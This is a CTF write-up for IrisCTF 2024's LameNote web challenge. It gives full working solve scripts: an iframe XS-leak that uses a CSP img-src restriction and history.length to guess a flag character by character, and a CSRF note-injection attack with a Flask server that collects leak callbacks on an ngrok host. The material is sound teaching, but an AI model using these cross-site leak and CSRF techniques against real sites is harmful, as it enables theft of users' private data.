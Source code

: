 ```yaml
---
title: LameNote
date: 2024-01-08
tags: 
- web
- author-hartmannsyg
categories: IrisCTF 2024
---
```


written by {% person hartmannsyg %}

This was one of the web challenges in IrisCTF 2024, I spent quite a while trying it during the CTF (I was unsuccessful) and also spent quite some time understanding it after the CTF. Thanks to everyone who helped answer my (many) questions in the IrisCTF discord lol.

Also tomato said "If you are done understanding it can you make a writeup for it" so here we are.

The challenge is as follows:
- submit a URL
- admin bot will create a note with a flag in it at https://lamenote-web.chal.irisc.tf/
- it will then visit your url, and your website has to steal the flag, somehow

The site also has a search functionality, and if there is only one note, it will directly display the note. If there are none it simply says "No notes". Otherwise, it will simply give you a list. When the site is directly displaying the note (as there is only one note that fits the query), an image will be requested. This differentiation is quite important for the solution.

We also know that the flag matches `irisctf{[a-z_]+}` so our charlist is only `_abcdefgihkjlmnopqrstuvwxyz`

## "Intended Solution" by sera

sera has given us the solve html:

```html
<!DOCTYPE html>
<html>
<head>
</head>
<body>
    <script>
    (async function(){
    async function go(body) {
      let url = "https://lamenote-web.chal.irisc.tf/search?query=irisctf{" + body

      f = document.createElement('iframe')
      f.setAttribute('sandbox', 'allow-same-origin');
      f.setAttribute('csp', 'img-src \'none\';')
      f.src = url;
      let rCount = 0;
      f.onload = () => {
          rCount += 1;
          // change location after onload once
          setTimeout(() => {
              f.onload = null
              f.src = url;
          }, 100)
      }
      document.body.appendChild(f)
      await new Promise(r => setTimeout(r, 1000));
      f.remove();
      f.src = 'https://blah.ngrok-free.app/csp';
      document.body.appendChild(f)
      await new Promise(r => setTimeout(r, 100));
      let ll = f.contentWindow.history.length;
      document.body.innerHTML = "";
      return ll;
    }
    let known = "";
    const urlParams = new URLSearchParams(window.location.search);
    if(urlParams.get("known") !== null) known = urlParams.get("known");
    let l = await go("!"); // start
    console.log("start", l);
    for(let c of '_abcdefgihkjlmnopqrstuvwxyz}') {
      let l2 = await go(known + c);
      console.log(l2, l, known, c);
      fetch("/?log=" + l2 + "|" + l + "|" + known + "|" + c);
      if(l2 == l) {
        known += c;
        l = l2;
        fetch("/?log=" + known);
        break;
      };
      l = l2;
    }
      if(!known.endsWith("}")) {
        window.open("/?known=" + known);
        window.close();
        while(1) {
          await new Promise(r => setTimeout(r, 1000));
          console.log("idle");
        }
      }
    })();
    </script>
</body>
</html>
```

I *really* did not understand what was going on here so I'll unpack what I've known:

### using `img-src 'none'` to create a navigation binary

{% ccb lang:html gutter1:1-20 highlight:9 %}
<!DOCTYPE html>
<html>
<body>
    <script>
    (async function(){
    async function go(url) {
        f = document.createElement('iframe')
        f.setAttribute('sandbox', 'allow-same-origin');
        f.setAttribute('csp', "img-src 'none';")
        f.src = url; // go to the site
        document.body.appendChild(f)
    }
    // it will return "No notes", will succesfully navigate to page
    await go('https://lamenote-web.chal.irisc.tf/search?query=text_is_not_in_any_note') 
    // it will return the note with the flag, except that HAS AN IMAGE, so it will not successfully navigate
    await go('https://lamenote-web.chal.irisc.tf/search?query=irisctf') 
    })()
    </script>
</body>
</html>
{% endccb %}

(we wrap everything in `(async function(){ ... })()` to run the code asynchronously)

The `go(url)` function creates an iframe and goes to the specified url. However, due to the specified csp of `img-src 'none'`, it is unable to navigate to the page. This is because the page's csp is **weaker** than the iframe's csp, so the site is unable to render

So the idea now is that we can guess character by character, and when it fails we know it is the correct one:

{% ccb html:true %}
/search?query=irisctf{<span class="subst">a</span> ✅ Navigation Successful
/search?query=irisctf{<span class="subst">b</span> ✅ Navigation Successful
/search?query=irisctf{<span class="subst">c</span> ✅ Navigation Successful
...
/search?query=irisctf{<span class="subst">p</span> ❌ Navigation Unsuccessful, note with 'irisctf{p' exists
/search?query=irisctf{p<span class="subst">a</span> ✅ Navigation Successful
/search?query=irisctf{p<span class="subst">b</span> ✅ Navigation Successful
/search?query=irisctf{p<span class="subst">c</span> ✅ Navigation Successful
...
/search?query=irisctf{p<span class="subst">l</span> ❌ Navigation Unsuccessful, note with 'irisctf{pl' exists
{% endccb %}

### xs-leak via navigation

(xs-leak stands for Cross-site leak)

Here is a [relevant page](https://xsleaks.dev/docs/attacks/navigations/) regarding this exploit.

We have a method for *finding* the flag, as long as we can tell the difference between a **successful** navigation and an **unsuccessful** one.

In the navigation xs-leak, we see that we can deduce whether or no the navigation is successful by looking at the iframe's history via `contentWindow.history.length;`. However, this only works when the `src` is the origin (i.e. `http://0.tcp.ap.ngrok.io:11568/`, which is there our site is hosted), so we redirect the iframe back to our site:

{% ccb lang:html gutter1:1-28 diff_add:13-19 %}
<!DOCTYPE html>
<html>
<body>
    <script>
    (async function(){
    async function go(body) {
      let url = "https://lamenote-web.chal.irisc.tf/search?query=irisctf{" + body
      f = document.createElement('iframe')
      f.setAttribute('sandbox', 'allow-same-origin');
      f.setAttribute('csp', "img-src 'none';")
      f.src = url; // go to the site
      document.body.appendChild(f)
      await new Promise(r => setTimeout(r, 1000)); // sleep 1000ms to wait for it to load 
      f.src = 'http://0.tcp.ap.ngrok.io:11568/solve';
      await new Promise(r => setTimeout(r, 1000)); // sleep 1000ms to wait for it to load 
      let length = f.contentWindow.history.length;
      console.log(`${body} history=${length}`)
      document.body.innerHTML = "";
      return length;
    }
    await go('!')
    await go('a')
    await go('b')
    await go('c')
    })();
    </script>
</body>
</html>
{% endccb %}

However, regardless of whether it errors or not, the history only increments one at a time:

{% ccb %}
! history=13
a history=14
b history=15
c history=16
...
y history=38
z history=39
{% endccb %}

Apparently, the solution to this is to run the iframe twice, like so:

{% ccb lang:html gutter1:1-36 diff_add:12-19 %}
<!DOCTYPE html>
<html>
<body>
    <script>
    (async function(){
    async function go(body) {
      let url = "https://lamenote-web.chal.irisc.tf/search?query=irisctf{" + body
      f = document.createElement('iframe')
      f.setAttribute('sandbox', 'allow-same-origin');
      f.setAttribute('csp', "img-src 'none';")
      f.src = url; // go to the site
      f.onload = () => {
          rCount += 1;
          // change location after onload once
          setTimeout(() => {
              f.onload = null
              f.src = url;
          }, 500)
      }
      document.body.appendChild(f)
      await new Promise(r => setTimeout(r, 1000)); // sleep 1000ms to wait for it to load 
      f.src = 'http://0.tcp.ap.ngrok.io:11568/solve';
      await new Promise(r => setTimeout(r, 1000)); // sleep 1000ms to wait for it to load 
      let length = f.contentWindow.history.length;
      console.log(`${body} history=${length}`)
      document.body.innerHTML = "";
      return length;
    }
    await go('!')
    await go('a')
    await go('b')
    await go('c')
    })();
    </script>
</body>
</html>
{% endccb %}

{% ccb html:true %}
! history=3
a history=5
b history=7
c history=9
d history=<span class="number">10</span> (history length only increased once = navigation failed = flag starts with d)
{% endccb %}

With this, we can basically test for the flag now, but there is one additional improvement that sera's solve script used, which is to *remove and then re-add the iframe to the document*

{% ccb lang:html gutter1:1-38 diff_add:22,24 %}
<!DOCTYPE html>
<html>
<body>
    <script>
    (async function(){
    async function go(body) {
      let url = "https://lamenote-web.chal.irisc.tf/search?query=irisctf{" + body
      f = document.createElement('iframe')
      f.setAttribute('sandbox', 'allow-same-origin');
      f.setAttribute('csp', "img-src 'none';")
      f.src = url; // go to the site
      f.onload = () => {
          rCount += 1;
          // change location after onload once
          setTimeout(() => {
              f.onload = null
              f.src = url;
          }, 100)
      }
      document.body.appendChild(f)
      await new Promise(r => setTimeout(r, 1000)); // sleep 1000ms to wait for it to load 
      f.remove();
      f.src = 'http://0.tcp.ap.ngrok.io:11568/solve';
      document.body.appendChild(f)
      await new Promise(r => setTimeout(r, 1000)); // sleep 1000ms to wait for it to load 
      let length = f.contentWindow.history.length;
      console.log(`${body} history=${length}`)
      document.body.innerHTML = "";
      return length;
    }
    await go('!')
    await go('a')
    await go('b')
    await go('c')
    })();
    </script>
</body>
</html>
{% endccb %}

What this does is that the `history.length` does not increment *unless* there is an error. Once again I'm not exactly sure why this happens

{% ccb html:true %}
! history=3
a history=3
b history=3
c history=3
d history=<span class="number">4</span> (history length increased = navigation failed = flag starts with d)
{% endccb %}

## Trixter's Solution (CSRF)

{% ccb caption:trixter url:https://discord.com/channels/1051808836593397781/1051819274995515392/1193886755900895322 lang:python %}
from flask import Flask, request
import sys

app = Flask(__name__)

flag_prefix = 'irisctf{'
chars = set('abcdefghijklmnopqrstuvwxyz_}')
ngrok_url = 'https://[...]'
reset_called = False

@app.route("/")
def index():
    return ("""
<!DOCTYPE html>
<html>
    <head>
    </head>
    <body>
        <script>
            const target = 'https://lamenote-web.chal.irisc.tf';
            function createNote(title, text, image) {
                const iframe = document.createElement("iframe");
                iframe.setAttribute("srcdoc", `
<html>
<!-- CSRF PoC - generated by Burp Suite Professional -->
<body>
    <form action="${target}/create" method="POST">
    <input type="hidden" name="title" value="${title}" />
    <input type="hidden" name="text" value="${text}" />
    <input type="hidden" name="image" value="${image}" />
    <input type="submit" value="Submit request" />
    </form>
    <script>
        document.forms[0].submit();
    <\/script>
</body>
</html>
`);
                document.body.appendChild(iframe);
            }

            function searchNote(search) {
                const iframe = document.createElement("iframe");
                iframe.setAttribute("src", `${target}/search?query=${encodeURIComponent(search)}`);
                document.body.appendChild(iframe);
            }

            const prefix = '%s';
            const charset = 'abcdefghijklmnopqrstuvwxyz_}';
            const remote = '%s';
            for(const char of charset) createNote('trixter', prefix + char, `${remote}/leak?char=` + char);

            setTimeout(() => {
                const iframe = document.createElement("iframe");
                iframe.setAttribute("src", `${remote}/reset`);
                iframe.onload = () => {
                    for(const char of charset) searchNote(prefix + char);
                };
                document.body.appendChild(iframe);
            }, 2000);
        </script>
    </body>
</html>
""" % (flag_prefix, ngrok_url)).strip()

@app.route("/reset")
def reset():
    global reset_called

    reset_called = True
    return "reset triggered"

@app.before_request
def leak():
    global reset_called, chars, flag_prefix

    if request.method == "OPTIONS" and reset_called:
        char = request.args.get("char", "")
        if char in chars:
            print('Flag does not have %s' % char)
            chars.remove(char)

            if len(chars) == 1:
                flag_prefix += list(chars).pop()
                print('Flag Prefix:', flag_prefix)

                reset_called = False
                chars = set('abcdefghijklmnopqrstuvwxyz_')

        return ""
{% endccb %}

What this does is more "straightforward"(?):
- create an iframe for each possible character
- each iframe creates a note with **the image being our `/leak?char=` url** and the contents being:
{% ccb %}
irisctf{a
irisctf{b
irisctf{c
irisctf{d
...
{% endccb %}
- we then query all of them. If the character is **wrong**, there will only be one note displayed, and it will attempt to fetch **our `/leak?char=` url as an image**. However, if the character is **correct**, there will be 2 results: the **actual flag note** and **the one we injected**. This means **our `/leak?char=` url will not be fetched**
{% ccb html:true %}
/search?query=irisctf{<span class="subst">a</span> ✅ /leak?char=a
/search?query=irisctf{<span class="subst">b</span> ✅ /leak?char=b
/search?query=irisctf{<span class="subst">c</span> ✅ /leak?char=c
...
/search?query=irisctf{<span class="subst">p</span> ❌ no /leak?char=<span class="subst">p</span>, another note with 'irisctf{p' exists, this is the correct one
/search?query=irisctf{p<span class="subst">a</span> ✅ /leak?char=a
/search?query=irisctf{p<span class="subst">b</span> ✅ /leak?char=b
/search?query=irisctf{p<span class="subst">c</span> ✅ /leak?char=c
...
/search?query=irisctf{p<span class="subst">l</span> ❌ no /leak?char=<span class="subst">l</span>, another note with 'irisctf{pl' exists, this is the correct one
{% endccb %}